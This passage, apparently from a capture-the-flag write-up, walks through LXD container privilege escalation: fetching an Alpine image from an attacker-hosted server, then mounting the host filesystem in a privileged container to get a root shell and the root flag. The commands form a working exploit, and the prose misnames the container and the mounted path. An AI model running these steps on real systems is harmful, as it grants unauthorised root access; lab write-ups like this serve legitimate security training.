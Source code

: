 ```bash
wget http://10.9.4.141:8000/alpine-v3.14-x86_64-20211102_1454.tar.gz
```

At first, we need to import the image into lxc image list as myimage,

```bash
lxc image import ./alpine-v3.14-x86_64-20211102_1454.tar.gz --alias myimage
```

![image](https://user-images.githubusercontent.com/67465230/186083760-a9705673-fa27-45f6-8440-42643616118f.png)

Now, listing all images again,

```bash
lxc image list
```

![image](https://user-images.githubusercontent.com/67465230/186083811-c1a93b83-0cec-4268-86db-747ae096c30f.png)

our image is now successfully added.

Now, to exploit the lxd, we need to execute command below,

```bash
lxc init myimage ignite -c security.privileged=true
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
lxc start ignite
lxc exec ignite /bin/sh
id
```

>In the above commands we created a container named gaming having all the privileges and mounted the /root directory to **/mnt/root** then executed `/bin/sh`

and when we issue `id` command, it will show us that we are **root**. Navigate to **/mnt/root/root** will let us have our root flag.